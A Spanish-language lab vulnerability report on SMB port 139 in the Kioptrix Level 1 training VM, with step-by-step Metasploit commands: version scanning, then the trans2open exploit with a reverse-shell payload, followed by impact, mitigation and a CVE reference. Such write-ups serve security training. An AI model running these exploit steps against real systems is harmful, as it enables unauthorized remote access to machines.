



#  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
Obtener  versión del protocolo smb

1. Acceder a la consola de metasploit a través del comando msfconsole en la terminal
2. Ejecutar el módulo smb_version con el comando “use auxiliary/scanner/smb/smb_version”  
3. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
4. Ejecutar el comando “run” para obtener la versión del protocolo smb 

Establecer conexión con el protocolo smb

5. Modificar el archivo smb.conf agregando “client min protocol = NT1” al final del grupo global 
6. Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
7. Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 

Exploit 

8. Acceder a la consola de metasploit y buscar modulo trans2open ejecutando “search trans2open”
9.  Poner en uso el modulo trans2open ejecutando “use” más el número del módulo Linux
10. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
11. Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
12. Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable, comprometiendo así la integridad del sistema. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla. 

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/

### PoC
Alcance dentro de Kioptrix

